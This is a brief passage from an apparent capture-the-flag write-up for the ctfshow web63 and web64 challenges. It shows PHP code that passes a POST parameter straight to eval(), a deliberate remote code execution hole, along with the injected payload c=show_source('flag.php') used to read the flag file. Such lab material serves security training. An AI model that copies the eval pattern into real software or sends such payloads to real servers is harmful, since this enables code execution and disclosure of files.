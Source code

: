 pyload:c=show_source('flag.php');

### web63

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

pyload:c=show_source('flag.php');

### web64

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
